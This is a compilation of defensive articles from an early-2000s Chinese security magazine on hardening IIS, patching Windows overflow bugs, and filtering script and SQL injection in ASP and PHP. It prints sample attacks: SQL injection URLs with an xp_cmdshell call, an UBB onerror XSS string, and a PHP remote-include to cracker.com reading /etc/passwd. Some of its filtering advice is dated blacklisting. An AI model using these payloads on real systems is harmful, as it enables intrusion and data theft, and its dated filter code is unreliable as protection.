现在很多网站都是因为数据库源地址被黑客通过某些手段得到，导致数据库文件被下载，而被入侵者取得了控制权！偶然间想到了一个安全配置 IIS 使数据库防下载的办法，经过配置后，就算黑客得到了数据库的位置和数据库的文件名，也没法通过任何软件下载到你的数据库文件，从而使服务器的数据库处于安全地带。是不是很爽？其实很简单，只要你为数据库的文件设置一个重定向的 URL 就行了。以下介绍的方法是我认为最安全的防数据下载的方法。

举一个例子来说吧。假设我现在要搞一个网站，域名为 netpk.com，使用 ASP 加 Access 数据库交互式动态主页，数据库文件没有加密，只要黑客下载了数据库就能得到网站 admin 的控制权，网站首页文件名为 index.asp。

在没开始之前，我们先对一般网站防数据库的最原始方面进行一下介绍。怎样防止 mdb 数据库被下载一直是用 Access 的程序员的一大头疾。现在常用的有效方法有如下几种：

- 1. **修改数据库名**。这是常用方法，将数据库名改成怪异名字或长名字，以防别人猜测。一旦被人猜到，别人还是能下载数据库文件；但几率不大。如将数据库 database.mdb 改成 k2c7d9s3^&ij3f.mdb 等。
- 2. **修改数据库后缀**。一般改成 database.asp、database.asa、database.inc、database.cgi、database.dll 等，注意要在 IIS 中设置这些后缀的文件不能被解析。
- 3. **将数据库 database.mdb 改成 #database.mdb**。这是最简单有效的办法。
    - **分析**：假设别人得到你的数据库地址串是：`http://www.yourserver.com/yourfolder/#database.mdb`，但实际上他得到的是：`http://www.yourserver.com/yourfolder/`。因为“#”在这里起到间断符的作用，地址串遇到“#”号，自动认为访问地址串结束。注意：不要设置目录可访问，用这种方法，不管别人用何种工具都无法下载，如 FlashGet、网络蚂蚁等。
    - **注**：只要数据库文件名任何地方含有“#”，别人都无法正常下载。同理，空格号也可以起到“#”号作用，但必须是文件名中间出现空格。
- 4. **将数据库连接文件放到其他虚拟目录下**。
- 5. **将 Access 数据库加密**。

以上我们只是列出了常用之法，为了增加保险性，可以几种方法同时使用。

数据库文件的地址一般都在 conn.asp 的文件里，假设我们的数据库名为 netpk.mdb，数据库文件在根目录 net 的文件夹下，我们只要把 conn.asp 的文件设置下文件重定向 URL 就行了。我们先设置 conn.asp 这个文件重定向 URL：打开 Internet 服务管理器，然后选择我们的站点 netpk.com，在 netpk.com 的站点里找到 conn.asp 文件，点击鼠标右键会出现一个菜单，选择“属性”选项，会出现一个窗口（如图 1 所示）。然后我们选择“重定向到 URL”选项，在“重定向到”的白色输入框里设置你要重定向到的地址，这里我们输入 `http://netpk.com`。如果别人访问你这个文件，那么他的访问即被转向到了 `http://netpk.com` 的首页了，就像我们常使用的转向域名原理一样。

然后我们再设置根目录下 net 文件夹里的 netpk.mdb 的文件重定向就行了。步骤和刚才的一样，只是重复设置了一次，很简单吧？

通过上面的安全配置，你的动态网站一样可以正常使用，但是黑客却没法下载你的数据库了。如果黑客知道了你的数据库位置，那么黑客用那些下载工具下载你的数据库文件 netpk.mdb 时，黑客下载下来的只会是 `http://netpk.com` 的首页文件，不能下载数据库文件，因为数据库已经被设置了重定向，所有指向这个数据库的文件地址的连接都会被重定向连接到 `http://netpk.com` 的首页文件里。

你现在可以放心地把你的数据库地址告诉别人了，看看还有没有人能正常下载你的数据库，呵呵！

（图 1）

**编后**：看毕本文，我按作者提到的方法对自己的 IIS 进行了配置，发现确实有效，相信此种方法对 IIS 管理员会有所帮助的。

---

## 防范 Workstation Service 远程溢出漏洞

**文/图 独行者**

关于 Windows Workstation Service 远程溢出漏洞的原理和利用，我们已经在本期攻册《Windows Workstation Service 远程溢出漏洞攻击实战》一文中作了详细叙述。读者们看了之后，是不是觉得脊梁发凉？赶快采取一些有效措施补上这个漏洞吧！

### 防范方法一

使用防火墙过滤 UDP 138、139、445 端口和 TCP 138、139、445 端口。这里我们以“江民反黑王”为例，其他防火墙也可以采取同样的设置。首先打开防火墙的控制面板，选择“规则设置”（图 1）。

再选择“增加规则”，在弹出的页面中进行如下配置：规则名称中取任意名称，“网络条件”下选择“接收数据包”时启用规则，“对方IP地址”选择“任意地址”，“本地IP地址”可以根据实际情况设定，也可不填。“TCP”端口下“本地端口”中添加 138、139、445 三个端口，“UDP”中添加 138、139、445 三个端口，再设定当所有条件满足时系统“拦截”，并做“报警”和“记录”。这样，一个防范 Workstation Service 远程溢出的防火墙规则设定就做好了（图 2）。

### 防范方法二

破釜沉舟的办法是停止 Workstation 服务（图 3）。不过要注意，禁用此服务将导致很多依赖它的服务失效，因为网络上的计算机必须激活这个功能才能访问共享的文件服务器或打印机，如果停止了这个服务，将会出现不能访问共享资源、不能使用拨号、xDSL、Cable modem 连接等问题！具体取舍看大家自己的立场了。

### 防范方法三

微软也已经推出了安全补丁以修补这个漏洞，用户可以选择并安装针对你所用系统的安全补丁，也可以使用 Windows 系统自带的 Windows Update 功能下载最新的补丁。补丁下载地址如下：

- Windows 2000: [http://www.microsoft.com/downloads/details.aspx?FamilyId=2467FE46-D167-479C-9638-D4D79483F261&displaylang=en](http://www.microsoft.com/downloads/details.aspx?FamilyId=2467FE46-D167-479C-9638-D4D79483F261&displaylang=en)
- Windows XP: [http://www.microsoft.com/downloads/details.aspx?FamilyId=F02DA309-4B0A-4438-A0B9-5B67414C3833&displaylang=en](http://www.microsoft.com/downloads/details.aspx?FamilyId=F02DA309-4B0A-4438-A0B9-5B67414C3833&displaylang=en)

**编后**：人无完人，程序亦如此。但只要不是致命的程序设计缺陷，总是有办法修补的。虽然 Windows 的 Bug 何其多，但是它的主人 Microsoft 还是很认真很负责的，只要我们密切注意微软的安全公告，及时打上补丁，还是能够在凶险的数字海洋中安然渡过的。

---

## FrontPage 扩展服务远程溢出漏洞修复方法

**文/图 奇奇**

关于 Microsoft FrontPage 扩展服务远程溢出漏洞的描述和利用，本期攻防《Microsoft FrontPage 扩展服务远程溢出漏洞攻击实战》一文中我们已经作了详细的阐述。该漏洞存在两个新的安全漏洞，可导致远程攻击者利用此漏洞进行缓冲区溢出攻击，可能以 FrontPage 进程权限在系统上执行任意指令。下面我们就给大家提供几种有效的解决该漏洞的方案：

- 1. 如果系统中完全不需要 FrontPage 扩展服务，可以在系统安装时不加载 FrontPage 扩展服务。
- 2. 如果已经安装，可以使用 IIS Lockdown 等工具来停止 IIS Web 服务器上的 FrontPage 扩展服务。IIS Lockdown 是一个 IIS 功能锁定程序，微软的 IIS 服务器由于功能设置太多，即使是对专业用户来说，要把它配置得天衣无缝也是十分困难的。而且大多数针对 IIS 的攻击并不是由于 IIS 软件本身的漏洞，而是对它的配置不够完备。对普通的服务器来说，使用 IIS 功能锁定程序可以在向导的帮助下对系统中不同的功能进行关闭，为系统提供多层保护。通过它可以帮助用户堵住各种已知的漏洞和不恰当配置。它的使用方法非常简单，只需要正常安装程序，再选择你要停止的“FrontPage 扩展服务”，选择“Stop”就可以了！
- 3. 管理员也可在“添加/删除 Windows 部件”里将 FrontPage Server Extensions 卸载（图 1）。
- 4. 微软也已经为此漏洞发布了一个安全公告（MS03-051）和相应的补丁，建议及时下载该补丁，下载地址如下：

**FrontPage Server Extensions 2000**
[http://www.microsoft.com/downloads/details.aspx?FamilyId=C84C3D10-A821-4819-BF58-D3BC70A77BFA&displaylang=en](http://www.microsoft.com/downloads/details.aspx?FamilyId=C84C3D10-A821-4819-BF58-D3BC70A77BFA&displaylang=en)

**FrontPage Server Extensions 2000 (Shipped with Windows 2000)**
[http://www.microsoft.com/downloads/details.aspx?FamilyId=057D5E0E-0E2B-47D2-9F0F-3B15DD8622A2&displaylang=en](http://www.microsoft.com/downloads/details.aspx?FamilyId=057D5E0E-0E2B-47D2-9F0F-3B15DD8622A2&displaylang=en)

**Microsoft FrontPage Server Extensions 2000 (Shipped with Windows XP)**
[http://www.microsoft.com/downloads/details.aspx?FamilyId=9B302532-BFAB-489B-82D0-ED1E49A16E1C&displaylang=en](http://www.microsoft.com/downloads/details.aspx?FamilyId=9B302532-BFAB-489B-82D0-ED1E49A16E1C&displaylang=en)

**Microsoft FrontPage Server Extensions 2002**
[http://www.microsoft.com/downloads/details.aspx?FamilyId=3E8A21D9-708E-4E69-8299-86C49321EE25&displaylang=en](http://www.microsoft.com/downloads/details.aspx?FamilyId=3E8A21D9-708E-4E69-8299-86C49321EE25&displaylang=en)

（图 1）

**编后**：微软的 Windows 漏洞真是太多了，对于 Windows 2000 及以上版本的用户，凡是不明的网络服务一律不要安装，以免存在 Bug 从而给人可趁之机。如果确实需要此服务，就要密切关注微软的安全公告，这也是一个负责任的网络管理员应有的态度。

---

## 脚本攻击防范策略完全篇（上）

**脚本小子**：本期我们特别为大家准备了网络上常见的脚本攻击的防范技术，就是希望各大站长在自己网站上运行脚本程序的同时做好安全维护，让每个入侵者都没有办法在你的站点上捣乱！

**难度等级**：中
**前置知识**：相关的脚本语言
**文/风清扬**

近来，网络上的 SQL Injection 漏洞利用攻击、JS 脚本、HTML 脚本攻击似乎愈演愈烈。陆续地很多站点都被此类攻击所困扰，这样的攻击并非像主机漏洞攻击那样可以当即修复，来自于 Web 的攻击方式给我们在防范或者修复上都带来了很大的不便。一个站长最大的痛苦莫过于此。如何才能做到真正意义上的安全呢？第一，别把密码和你的生活联系起来；第二，Supermaster 的 PWD 最好只有你自己知道；第三，绝对要完善好你的网站程序。然而怎样才能完善，这将是我们此文的最终目的。

安全防护，如何做到安全防护？想要防护就要知道对方是如何进行攻击的。有很多文章都在写如何攻下某站点，其实攻击途径也不过以下几种：

### 攻击途径

- 1. **简单的脚本攻击**
  此类攻击应该属于无聊捣乱吧。比如 `javascript:alert();`、`</table>` 等等，由于程序上过滤得不严密，使攻击者得不到什么可用的资料，但可以进行捣乱。目前很多站点的免费服务，或者是自身站点的程序上就有过滤不严密的问题。

- 2. **危险的脚本攻击**
  这类脚本攻击已经过渡到可以窃取管理员或者是其他用户信息的程度了。比如大家都知道的 cookies 窃取，以及利用脚本对客户端进行本地的写操作等等。

- 3. **SQL Injection 漏洞攻击**
  可以说，这个攻击方式是从动网论坛和 BBSXP 开始的。利用 SQL 特殊字符过滤的不严密，从而对数据库进行跨表查询的攻击。比如：
  ```sql
  http://127.0.0.1/forum/showuser.asp?id=999 and 1=1
  http://127.0.0.1/forum/showuser.asp?id=999 and 1=2
  http://127.0.0.1/forum/showuser.asp?id=999 and 0<>(select count(*) from admin)
  http://127.0.0.1/forum/showuser.asp?id=999' declare @a sysname set @a='xp_'+'cmdshell' exec @a 'dir c:\'--&aid=9
  ```
  得到了管理员的密码，也就意味着已经控制整个网站，虽然不一定能得到主机的权限，但也为这一步做了很大的铺垫。类似的 SQL Injection 攻击的方式方法很多，对不同的文件过滤不严密所采取的查询方式也不同。所以说，要做好一个完整的字符过滤程序不下一番功夫是不可能的。

- 4. **远程注入攻击**
  如果某站点所谓的过滤只是在提交表格页上进行简单的 JS 过滤，对于一般用户来说，你大可不必防范；对于有预谋的攻击者来说，这样的过滤似乎根本没起作用。我们常说的 POST 攻击就是其中一例——通过远程提交非法的信息以达到攻击目的。

### 防范手段

通过上面的攻击方法的介绍，我们大致了解了攻击者的攻击途径，下面我们就开始重点介绍如何有效地防范脚本攻击。还是让我们从最简单之处开始吧。

#### 1. 防范脚本攻击

JS 脚本和 HTML 脚本攻击的防范其实很简单：`Server.HTMLEncode(Str)` 就行。你可不要大叫“怎么可能”哦？你让我把全站类似 `<%=uid%>` 都加过滤，还不累死我？为了方便过滤，我们只需要将 HTML 脚本和 JS 脚本中的几个关键字符过滤掉就可以了。

另外值得我们注意的是，很多站点在用户注册或者是用户资料修改的页面上也缺少脚本的过滤，或者是只在其中之一进行过滤，注册进入后修改资料仍然可以进行脚本攻击。对用户提交的数据进行检测和过滤，其具体代码如下：

```asp
<%
' 以下是过滤函数
function CHK(fqyString)
    fqyString = replace(fqyString, ">", "&gt;")
    fqyString = replace(fqyString, "<", "&lt;")
    fqyString = replace(fqyString, "&#", "&amp;#")
    fqyString = Replace(fqyString, CHR(32), "&nbsp;")
    fqyString = Replace(fqyString, CHR(9), "&nbsp;")
    fqyString = Replace(fqyString, CHR(34), "&quot;")
    fqyString = Replace(fqyString, CHR(39), "&#39;")
    fqyString = Replace(fqyString, CHR(13), "")
    fqyString = Replace(fqyString, CHR(10) & CHR(10), "</P><P>")
    fqyString = Replace(fqyString, CHR(10), "<BR>")
    CHK = fqyString
end function
%>
```

应用实例如下：
```asp
<%=CHK(Username)%>
Username = CHK(replace(request("username"), ...))
```
使用 Include 把函数写在公有页面上，这样效果是最好的。

针对非法字符的检测代码：
```asp
<%
If InStr(request("username"), "--")>0 Or _
   InStr(request("username"), "%")>0 Or _
   InStr(request("username"), chr(32))>0 Or _
   InStr(request("username"), "?")>0 Or _
   InStr(request("username"), "&")>0 Or _
   InStr(request("username"), " ")>0 Or _
   InStr(request("username"), "\")>0 Or _
   InStr(request("username"), "(")>0 Or _
   InStr(request("username"), ")")>0 Or _
   InStr(request("username"), chr(34))>0 Or _
   InStr(request("username"), chr(9))>0 Or _
   InStr(request("username"), "$")>0 Or _
   InStr(request("username"), "><")>0 Or _
   InStr(request("username"), "<>")>0 Or _
   InStr(request("username"), "'''")>0 Then
    response.write("朋友，你的提交用户名含有非法字符，请更改，谢谢合作 <a href=javascript:window.history.go(-1);>返回</a>")
    response.end
End If
%>
```

为了提高工作效率，我们再将过滤内容程序化，这样对多个参数的过滤效率将有很大程度的提高，代码如下所示：

```asp
' 以下为程序主体
Dim Bword(18)
Bword(0)="?"
Bword(1)="'"
Bword(2)="><"
Bword(3)="<>"
```

```vb
Bword(4)="="
Bword(5)="<"
Bword(6)=">"
Bword(7)="&"
Bword(8)="%"
Bword(9)="$"
Bword(10)="'"
Bword(11)=";"
Bword(12)="|"
Bword(13)="/"
Bword(14)="\\"
Bword(15)="?"
Bword(16)=" chr(9)"
Bword(17)=" chr(34)"
Bword(18)=" chr(32)"
errc=false
' 以下是应用实例部分
for i=0 to ubound(Bword)
  if instr(FQYs,Bword(i))<>0 then
    errc=true
  end if
next
if errc then
  response.write "<script language=""javascript"">"
  response.write "parent.alert('很抱歉!你的操作违法了');"
  response.write "history.back();"
  response.write "</script>"
  response.end
end if
```

有了上面的过滤函数，你可以在任何需要过滤的地方应用过滤函数直接使用就可以了。这就使我们的修复工作大大地简化了。

另外，我想在这里再次提醒一下，一些站点的 UBB 在进行小的表情图标转化时也会出现过滤问题，由于很隐蔽所以不容易发现：

```text
如：[img]img/0001.gif[/img]
我们将标签内的文字进行修改，[img]img/0001.gif' onerror=javascript:alert()；alt='[/img]
```

不知道各位看懂没，前一个单引号用来中和程序提供的左引号，第二个单引号用来中和闭合的右引号，这样程序输出就成为：

```html

```

如果图片不存在，那么将激活 onerror 标签执行脚本程序。对于已经过滤了单引号的站点在这里用双引号一样可以完成。对于过滤了 javascript 字段的，只用 alert() 也完全可以。所以说，要过滤就要过滤完全，别给攻击者留下一丝机会。

## 2．ASP 木马

讲到这里，再提醒各位论坛站长一句，小心你们的文件上传：为什么论坛程序被攻破后主机也随之被攻击者占据？原因就在于 ASP 木马！一个绝对可恶的东西。病毒吗？非也。把个文件随便改到你论坛的程序中，你找去吧，不吐血才怪！如何才能防止 ASP 木马被上传到服务器呢？方法很简单，如果你的论坛支持文件上传，请设定好你要上传的文件格式，我不赞成使用可更改的文件格式，直接从程序上锁定，只有图像文件格式 and 压缩文件就完全可以，多给自己留点方便也就多给攻击者留点方便。怎么判断格式？我这里收集了一个，也改出了一个，大家可以看一下：

```vb
' 判断文件类型是否合格
Private Function CheckFileExt(fileEXT)
  dim Forumupload
  Forumupload="gif,jpg,bmp,jpeg"
  Forumupload=split(Forumupload, ",")
  for i=0 to ubound(Forumupload)
    if lcase(fileEXT)=lcase(trim(Forumupload(i))) then
      CheckFileExt=true
      exit Function
    else
      CheckFileExt=false
    end if
  next
End Function

' 验证文件内容的合法性
set MyFile = server.CreateObject("Scripting.FileSystemObject")
set MyText = MyFile.OpenTextFile(sFile, 1)
' 读取文本文件
sTextAll = lcase(MyText.ReadAll) : MyText.close
' 判断用户文件中的危险操作
sStr = ".ht, getfolder, createfolder, deletefolder, createdirectory, deletedirectory"
sStr = sStr & "|saveas|wscript.shell|script|encode"
sNoString = split(sStr,"|")
for i = 0 to ubound(sNoString)
  if instr(sTextAll, sNoString(i)) <> 0 then
    sFile = Upl.Path & sFileSave: fs.DeleteFile sFile
    Response.write "<center><br><big>" & sFileSave & " 文件中含有与操作目录等有关的命令！" & "<br><font color=red>" & mid(sNoString(i),1,2) & "</font>，为了安全原因，<b>不能上传。</b>" & "</big></center></html>"
    Response.end
  end if
next
```

把它们加到你的上传程序里做一次验证，那么你的上传程序安全性将会大大提高。

什么？你还不放心？拿出杀手锏，请你的虚拟主机服务商来帮忙吧。登录到服务器，将 PROG ID 中的 shell.application 项和 shell.application.1 项改名或删除；再将 WSCRIPT.SHELL 项和 WSCRIPT.SHELL.1 这两项都改名或删除。呵呵，国内可能近半以上的虚拟主机都没改过！现在的情况你只能庆幸你的用户很合作，否则，我删，我删，我删删删删……

好了，本期我们就先讲到这里，下期我们将为大家准备了完善的防御 SQL 注入的方法，希望大家喜欢！

---

脚本小子：脚本安全在过去的 2003 年里被炒得沸沸扬扬，无数脚本入侵方法在网络上流传，脚本程序的漏洞也层出不穷，很多脚本程序编写者总是在第一时间内弥补漏洞，但终归是晚了一步，很多损失已经造成。那么，我们究竟如何来根除这样的弊端呢？让我们一起来看看——

- 难易程度：中
- 前置知识：ASP，SQL 注入基础知识，软件测试基本概念

## 细写安全的 ASP 代码
文／图 林红

ASP 中数据库的安全是一个很严肃的问题，很多代码的编写者意识到了这类问题，并且小心翼翼地对他们认为有问题的地方做了补救，但常见的情况是要么没有穷尽所有的可疑地点，要么这种补救逻辑上有误。对于一个耐心且嗅觉灵敏的攻击者来说，这种意义上的补救措施和没有任何补救措施没有本质上的区别。

下面罗列的是一些可能出现的问题：有些是常见易犯的错误，有些根本就是逻辑上有问题。看看你是不是也这样写过？对于攻击者而言，倒真要看这些东西，应该对寻找漏洞有点帮助，更为完整一点的检测方法，敬请期待我的“关于黑／白盒分析和自动化测试”文章。

> **编者注：**
> 关于作者提到的“黑/白盒分析和自动化测试”文章，在看了其中一篇的开头之后，小编我忍不住非常期待。如果读者朋友们也有幸能够看到，一定会明白我的感受的。为了帮助他早日完成这几篇文章，我们给他一点压力:)

### 令人疑惑的过滤方式

典型例子是不管不顾地对所有的输入变量都去掉单引号，或者是把单引号替换成合法的两个单引号，例如：

```vb
id = replace(request.querystring("id"), "'", "")
str = replace(request("someinput"), "'", "''")
```

现在很明了的是，第一个做法很有可能是错误的。因为引起 SQL Injection 的不总是单引号，再扩大一点，引起问题的不是任何单独的符号，这样的过滤，有些冤枉单引号了。正确的利用注入，重要的一点是闭合前面的一句 SQL 查询语句——往往是得先正确地闭合前面一个条件，因为我们可能会在同一句里面引入新的条件，补救措施只要破坏注入条件应该就可以了，但是考虑到其复杂性（下面会说），最好还是较为完整地限制一下输入的字符种类。

第二个看起来是没有什么问题的，但潜在会带来一些隐患。这很容易给人造成的一个错觉是，我对输入的字符串已经很有效地做过处理了，以后使用没有什么问题。这句话没有错，对字符串来说这样做也是很正确的，但是它扮演了一个不光彩的角色，试想一下，如果过滤后的字符串放进了数据库，而后续的语句又直接拿出来使用，这种对前面过滤的依赖性，是不是正确的呢？

也许较好的做法应该是，针对具体的情况来确定过滤的准则。

常见的输入变量有 3 种：数字、字符串和集合。对于数字型的输入变量，简单调用一下判断函数即可，见得到的代码中，凡是检查了这类变量的，几乎都正确。对于字符串型的来说，基本上在插入到生成的 SQL 语句时，前后都有单引号，如果仅从破坏注入条件来看，把单引号替换成两个单引号应该问题不大。同理，如果是一个字符串的集合，也可以简单地用这种方法。而如果是数字的集合，情况可能稍微麻烦一点，至少你得允许数字、逗号或许还有空格之类的符号在输入中正常出现，这样的过滤规则可能显得复杂，不过你可以借鉴一下 dvBBS 6.1 打过补丁后的版本，总的来说，对于已经发现的过滤漏洞而言，它们还是补得比较好的。

对于第二句话，至少现在不能说它是错的，我们留待后面解决。

### 获取的数据值得信赖吗

其实这样说范围显得有点大，一下子涉及到很多方面，一个例子一个例子地举来看好了。

首先是关于选择过滤数据的问题。一直以来，我们认为凡是用户输入的东西，都要经过适当的处理。没错，但实际上是否都真正做到呢？随便找个抓包的工具，比如 Ethereal，看看在你用 IE 提交表单或者是打开连接的时候，都提交了什么。或者，简单一些，打开 NetAnt 编辑一个任务，在协议标签中，看看那个“自定义提交者”和“用户代理”的选项。

我想你已经明白了，对方可以自己定制的东西不仅仅是 GET 或 POST 过来的数据！如果所有的用户都规规矩矩地用浏览器，确实不用防备这么严，如果对方不这么老实，在取服务端变量或 Cookie 的时候可要小心了，没有任何人能够保证你获得的数据是合法的。对于 Cookie 而言，很多程序都出过问题，所以以前强调得比较多，至于另外的，关注的人可能比较少一点，但你是否看过或者写过这样的代码：

```vb
sql="insert into Table (statuserid, membername, memberclass, remote_host, boardid, user_agent, stats, forwarded_for, UserGroupID, userhidden) values (" & statuserid & "," & membername & "," & memberclass & ",'" & Request.ServerVariables("REMOTE_HOST") & "'," & boardid & ",'" & Request.ServerVariables("HTTP_USER_AGENT") & "','" & replace(stats, "'", "''") & "','" & Request.ServerVariables("HTTP_X_FORWARDED_FOR") & "','" & act.Come & "','" & userid & "')"
```

Request.ServerVariables("HTTP_USER_AGENT") 就是你在 NetAnt 中看到的用户代理选项，也就是说你可以伪造，同样可以伪造的还有 Request.ServerVariables("HTTP_REFERER")，也就是你在 NetAnt 中看到的提交者选项等等。在做一些项目的时候，很有可能要将这一类的变量添加入数据库，这时候要千万小心，这个地方的忽略引起的后果和其他类型变量未过滤导致的后果是一样的。

在 Google 上搜索 Referer 和 Request.ServerVariables 两个关键字，还可以看到很多有问题的写法，或者去看看 5 月份左右的关于动网论坛入侵的文章，也许你的理解会更加深刻一点。

然后是一个隐藏得稍微深一点的问题，不知用户的直接输入要不要过滤？

这就回到了我们前面留下的那个问题，即单引号换成两个单引号的潜在威胁。在第二次构造 SQL 语句的时候，倘若数据是从数据库里面直接去取出来用的，多数情况下人们会认为前面已经处理过的东西看起来似乎并没有必要再处理，或者干脆就是没有意识到应该处理。这是极其错误的！从两个方面来看，首先你入库的时候对提交数据中的单引号处理，仅仅是保证了单次 SQL 语句构造的正确性，并没有一劳永逸地解决问题。再说了，后面取出数据用的时候，对数据安全性检查的依赖并没有得到保证，因为这种依赖关系没有传递下来，而且依赖关系本身还不是可传的。

就 replace(request("someinput"), "'", "''") 而言，它的不安定性在于这种过滤方式只是一种妥协，换句话说只是在有限的范围内掩盖了可能出现的问题，而没有永久性地处理掉。它还有一个讨厌的地方在于给人一种错觉，似乎是处理过的数据已经安全了，容易让后继的代码编写者产生虚幻的安全感。对这两个弱点，不是随便换一个写法就能解决的，因为如果你把单引号干脆去掉，又会引来另外一个问题，输入数据中确实有需要而且正确的单引号怎么办？从一开始我就说，单引号本身是无罪的，过滤它只是一种解决手段而已，所以我们还是就这样写吧，不过要在后继的部分加强一下检查。

这一类的问题，如果依然用动网论坛做例子，我建议看一下 6 月 8 号的漏洞文章。

还有就是过滤器的位置，这个掺杂了逻辑问题在内的复杂问题。

我曾经非常惊奇地发现乔客论坛对外散布的版本中一段让人觉得不可思议的问题代码，如果你比较感兴趣的话，翻翻 gallery.asp 就能看到一个特定的动作序列（action=flash_view），绕过了所有对 id 的检查。

其实说起来，这一类代码不太可能有太复杂的逻辑结构，对代码进行审查的时候，进行所有的分支覆盖是可以手工完成的，只要稍微想想就会发现对变量的检查是否能够有效地到达你的目的地——生成 SQL 语句的地方。

关于过滤器的位置，如果要深入下去，马上就会出来一些让人眼花缭乱的东西，中间的分析很麻烦而且很形式化，虽然确实有算法可以保证位置选取的正确性，但是我想这里还是给出一些结论性的东西吧。倘若你很有兴趣，我想你可以来信和我交流。

过滤的位置，取决于两个方面：你获得变量的来源，以及你需要保证到的生成 SQL 语句的位置。前面一个，不论是来自于直接还是间接输入，先想想可能的输入字符；对于后面一个，你要保证无论程序运行情况怎样，经过了过滤语句的流程一定会经过你需要保证到的生成 SQL 语句的位置（保证其是有效过滤语句的后向必经节点）。如果你不很清楚流程的判断，我的建议是 if 中仅仅判断，if 嵌套间不要有多余的东西，过滤语句后紧接生成 SQL 语句。

再回到前面提到的潜在问题，我们终于可以在这里解决了：在取出数据后依然首先进行判断。因为根据前面说的，这一种间接输入依然有可能出现危险。

说道这里，插一句另类的过滤位置问题：不要把对输入的过滤放到客户端解决，那是可以绕过的！谁能保证你的 VBScript/JavaScript 能起作用，如果别人直接用 NC 或者一个不支持脚本的浏览器呢？

上述两个大的方面，以软件测试的目光来认识，显然是没有穷尽所有的分支所导致。在使用对方提交的数据之前，先做一个对方所有可能进入字符的分析列表，然后就每一种输入分支情况进行类型的审核，这是每个代码编写者都应该做的事情。这是一件很简单的事情，因为只是类型上的审核还好，碰上语义的问题就麻烦了……

### 类型正确意味着放行？

涉及到语义的问题，要是可能的话，我选择最好还是避开。

譬如对于一个整型数字，你输入的确实是一个整型，通过了过滤器，潜在的问题是你的输入在内容上合法吗，或者根本就不应该从你这里获得信息？很多年前就有人提出来，有些注册的模块存在问题：它里面的 id 是通过一个 type=hidden 掩盖后隐式提交的，但是我在第一步建立了用户，第二步仍就有可能通过提交内容不合法的 id 来修改他人的信息。这种显类的问题都是非常难发现的，而且几乎都只有靠经验而不是某一个具体的算法来处理。我们再联系一下前面的，连起来想想或许能够更加清楚，对于输入的字符串，感觉上没有过滤也不会有错，因为比较数字之类集合来说，字符串所能容纳的几乎是全部可能输入的集合。事实上，常见的是没有过滤造成单引号的错误匹配，进而导致了 SQL Injection。严格说起来，这也是一个语义上的问题，不过对于这样子的特殊情况而言，可以通过处理输入中的单引号来保证语义的某种程度上的正确。所以我也一再强调，单引号本身是无罪的，不过是背了语义的黑锅而已。

令人遗憾的是，如果是整型数据出了语义上的问题，没有什么东西可以替语义背黑锅了，所以没有了一个一定程度上通用的解决方案。不过不要悲观，前面就已经说过，能避开就避开，釜底抽薪不要让可能有语义问题的变量作为输入就好了。

仅仅考虑数据库安全的话，所有有威胁的语义问题几乎都出在对数据库的操作上，那么，我们只要注意 update/insert 等语句就可以了，如果考虑数据内容的安全性的话，select 也得算上。一般来说，特别关注的是生成的 where 后面的条件语句，总觉得条件的语义应该是由服务器端决定的，而不是说用户的输入是什么就是什么。我的建议是对于所有的可能出现语义问题的整型变量，最好都是 Session，当然，没有进行非常深入的研究，或许有人能够提出像对付字符串的语义问题一样的有效方法也说不定。不过话又说回来，在语义层面上看对字符串的过滤，不能证明它不安全，但是更重要的是没有人能够证明它安全，只是大家现在用着没有问题，也就默认了罢了。

若要深入的分析语义，也会突然冒出一大堆奇怪的东西，所以还是就此打住吧，真切地希望同行之间能够多一些这方面的交流！

前面说的也许更多地会用在一些对既有代码的补救上，如果是从头开始构架一个软件的话，上面的仅仅是设计上一些参考。所有的漏洞都是源于设计上的缺陷，一个好的软件应该被证明其模型是正确的，这很难但是可以做到。如果你一开始就证明了软件的正确性，我想也不会有漏子可以给别人钻了。

> **后记**
> 目前 ASP 代码存在安全问题似乎已经变得非常普遍，特别是 SQL Injection 一类的漏洞更是层出不穷，随便从网上下载一份 ASP 脚本代码仔细读读，似乎都可以或多或少发现一些不同程度的问题。当然，出了问题能够及时打补丁，的确也算是对用户的一种安慰。但长此以往，日复一日，安全问题最终还是难以真正解决。看来，从软件最初设计时就开始考虑安全问题，才是最重要的！

脚本小子：代码安全是网络安全中很重要的一个方面，许多网站因为网页代码编写得不规范而被“脚本小子”所利用，也更说明了这一点。因此，我们很有必要讨论一下关于如何注意在 PHP 编写过程中的安全问题，以避免后期出现不可预知的漏洞。

难度等级：中级
前置知识：PHP 语言编写基础

## 让你的 PHP 更安全

很多朋友都在使用 PHP 开发 Web 应用程序，程序虽然写了很多，但是安全问题却考虑得非常少，这可不是好现象。下面我们就一起来讨论 PHP 的安全问题，希望大家都能写出安全性很高的程序！

假如 crack.php 包括以下内容：

```php
<?php
passthru(`cat /etc/passwd`);
?>
```

这样将促使 PHP 从远程服务器上下载 crack.php，并在本地服务器上执行！简单来说，就会将 /etc/passwd 文件暴露给攻击者。

### 页面变量

如果只用几个页面来做一个站点的话，大家都希望用相同的页眉和页脚，而程序员常常是用一个索引来做输出页眉，再用同样的方法输出页脚。有的站点为了选择页面的内容，用定义在 URL 中的页面变量。如下：

URL 示例：
`http://www.unsecuresite.com/index.php?page=news.php`

index.php 页面如下：

```php
<?php
// <!-- print header here -->

include($page);

// <!-- print footer here -->
?>
```

这是个普通的错误：当 PHP 包含一个页面时，它不能考虑这个页面是本地的还是远程服务器上的。攻击者可以容易地变 URL 为：
`http://www.unsecuresite.com/index.php?page=http://www.cracker.com/crack.php`

### SQL & URL 安全

SQL 注入是现在非常时髦的攻击方法了，我们来看这样的方法是怎么造成的：假如有个 URL 是 `http://www.unsecuresite.com/index.php?id=3`，我们假设 ID 变量被用在 SQL 中，当出现错误时，有些开发者喜欢输出 SQL 命令。如果要把 `'` 加入到 URL 中就可能出现错误。如下：

`Error: SELECT * FROM Mytable WHERE ID='3''`

在这里面我们看到被指定在 URL 中 ID 变量直接用在了 SQL 命令中，如果我们把 URL 变成 `http://www.unsecuresite.com/index.php?id=3'%20OR%20id>='0`（%20 是一个空格），应用程序将运行 SQL 命令：

```sql
SELECT * FROM Mytable WHERE ID='3' OR ID>='0'
```

一个初步的注入就形成了！为了避免这些，必须常常检查用在 URL 中的变量。例如，可以这样：

```php
<?php
if ( !is_numeric( $id ) )
{
    print( "Error in syntax" );
    die();
}
// ...
?>
```

### SQL 注册页面问题

在站点上用用户登录，必须注意我们的 SQL。假设有一个注册页面如下：

```html
<form action="login.php" method="post">
User name: <input type="text" name="Username"/>
Password: <input type="password" name="Password"/>
<input type="submit" value="OK" />
</form>
```

